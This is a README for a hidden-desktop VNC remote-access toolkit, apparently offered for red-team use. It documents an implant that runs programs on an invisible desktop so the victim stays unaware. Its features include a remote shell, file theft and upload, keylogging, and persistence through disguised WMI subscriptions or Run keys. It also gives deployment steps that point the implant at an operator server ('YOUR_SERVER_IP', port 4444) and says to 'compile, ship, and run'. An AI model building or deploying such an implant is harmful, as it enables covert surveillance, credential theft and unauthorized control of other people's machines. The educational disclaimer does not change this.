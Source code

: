 # 🕶️ Headless VNC (HVNC) Toolkit

> A **stealth-first** remote-administration framework that spins up an **invisible Windows desktop** in memory and lets you drive it like a regular VNC session—only without the tell-tale screen flicker or user-side pop-ups.  
> Built for red-team operators who need *eyes-on-glass* access with the subtlety of a ghost.

---

## 🗂️ Repository Layout

| Path     | Role | Notes |
|----------|------|-------|
| **`server/`** | Server-side component | Accepts inbound HVNC tunnels, multiplexes sessions, prints each connection in its own console |
| **`client/`** | Client implant | Creates the hidden desktop, hooks keyboard / mouse, relays frames & input events |

> ⚠️ *Every new connection opens in a **separate console window***—handy for parallel ops and clean log separation.

---

## 📜 Supported Commands

| Constant | Action |
|----------|--------|
| `CMD_START_EXPLORER`     | Launch **Windows Explorer** (`explorer.exe`) |
| `CMD_START_RUN`          | Open the classic **Run / cmd prompt** (`cmd.exe`) |
| `CMD_START_CHROME`       | Launch **Google Chrome** |
| `CMD_START_EDGE`         | Launch **Microsoft Edge** |
| `CMD_START_BRAVE`        | Launch **Brave** |
| `CMD_START_FIREFOX`      | Launch **Mozilla Firefox** |
| `CMD_START_IEXPL`        | Launch **Internet Explorer** |
| `CMD_START_POWERSHELL`   | Open **PowerShell** |
| `CMD_SHELL_OPEN`         | Begin an **interactive remote shell** |
| `CMD_SHELL_COMMAND`      | Send a command to a shell already open |
| `CMD_FILE_LIST`          | Enumerate **files / folders** in a directory |
| `CMD_FILE_DOWNLOAD`      | **Download** a file from the remote box |
| `CMD_FILE_UPLOAD`        | **Upload** a file to the remote box |
| `CMD_KEYLOGGER_START`    | Start **key-logging** |
| `CMD_KEYLOGGER_STOP`     | Stop key-logging |

---

## 🚀 Getting Started

1. **Server**

   ```
   cd server
   python server.py
   # 🖥️ The script will prompt for a **listening port** — use the same port as the client build.
   ```

2. **Client**

   *Edit* `client/main.cpp` – set:

   ```cpp
   constexpr auto HOST = "YOUR_SERVER_IP";
   constexpr uint16_t PORT = 4444;  // same as the server prompt
   ```

   Then compile, ship, and run.
   On first launch, the implant copies itself to:

   ```
   %LOCALAPPDATA%\Microsoft\Win32Components\
   ```

   and auto-starts at logon:

   * **Admin** → WMI subscription
   * **Standard user** → `Run` registry key

---

## 🧪 Testing & Cleanup

Need a sterile host after the demo? Use the included PowerShell helper:

```powershell
# Remove artifacts, folders, autoruns
client\clean.ps1
```

### Manual WMI Check / Removal

```powershell
Get-WmiObject -Namespace root\subscription -Class __EventFilter `
  -Filter "Name='Microsoft_Win32Filter'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer `
  -Filter "Name='Microsoft_Win32Consumer'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | ForEach-Object { $_.Delete() }
```

**Verify all gone:**

```powershell
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | Format-List Filter, Consumer
```

---

## 🔍 Why HVNC?

*Traditional* VNC mirrors the *user’s* active desktop—any mouse wiggle or window pop-up is visible. **Headless VNC** instead:

1. **Creates a brand-new, invisible desktop** (WinSta0\HVNC) in memory.
2. Runs spawned processes *inside that hidden session*—completely off-screen.
3. Streams the pixels (or GDI diffs) back to the operator with negligible latency.
4. Leaves the real user blissfully unaware—no taskbar flashes, no window focus steals.

In short: you get a **full UI foothold** with the stealth of a backdoor shell.

---

## 🛡️ OPSEC Highlights

* **Console-per-session** → easy kill-switch & minimal cross-noise.
* **Auto-persistence** adapts to privilege level (WMI vs. registry).
* **Keylogger** runs in-process—no DLL drop on disk.
* **WMI cleanup script** shipped for safe red-team eject.

*(Yes, there’s more on the roadmap: TLS tunneling, clipboard sync, multi-monitor capture—watch the commits!)*

---

## 🚫 Disclaimer

This repository is provided for **educational purposes only** and intended for **authorized security research**.
Any **unauthorized use**—including but not limited to illicit surveillance, system compromise, or privacy invasion—is **strictly prohibited**.



